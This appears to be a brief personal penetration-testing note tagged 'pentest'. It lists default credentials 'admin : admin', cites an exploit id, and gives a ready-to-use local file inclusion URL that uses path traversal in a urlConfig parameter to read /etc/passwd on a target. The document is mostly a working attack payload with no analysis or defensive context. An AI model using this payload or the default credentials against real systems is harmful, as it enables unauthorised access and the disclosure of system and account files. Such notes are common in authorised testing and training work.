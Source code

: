 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

admin : admin

LFI:

exploit 25971

```
http://$TARGET/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```
